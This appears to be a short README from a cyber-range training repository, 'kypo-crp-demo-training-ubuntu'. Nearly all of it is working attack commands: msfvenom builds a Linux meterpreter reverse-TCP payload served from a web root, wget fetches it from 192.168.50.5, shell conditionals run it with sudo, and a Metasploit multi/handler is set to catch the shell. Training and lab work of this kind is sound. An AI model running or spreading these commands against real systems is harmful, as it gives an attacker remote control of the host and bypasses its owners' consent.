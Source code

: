 # kypo-crp-demo-training-ubuntu

USE MSFVENOM

(Stageless payload)

msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=192.168.50.5 LPORT=6996 -f elf -o /var/www/html/shell-x64.elf

wget http://192.168.50.5/shell-x64.elf

chmod +x shell-x64.elf


if [ ! -s /home/server/shell-x64.elf ]; then wget -O /home/server/shell-x64.elf http://192.168.50.5/shell-x64.elf; fi

if [ -s /home/server/shell-x64.elf ]; then chmod +x /home/server/shell-x64.elf; fi

use exploit/multi/handler

set PAYLOAD linux/x64/meterpreter_reverse_tcp

set LPORT 6996

set LHOST 192.168.50.5

exploit


if ! pidof -x /home/server/shell-x64.elf; then sudo /home/server/shell-x64.elf; fi
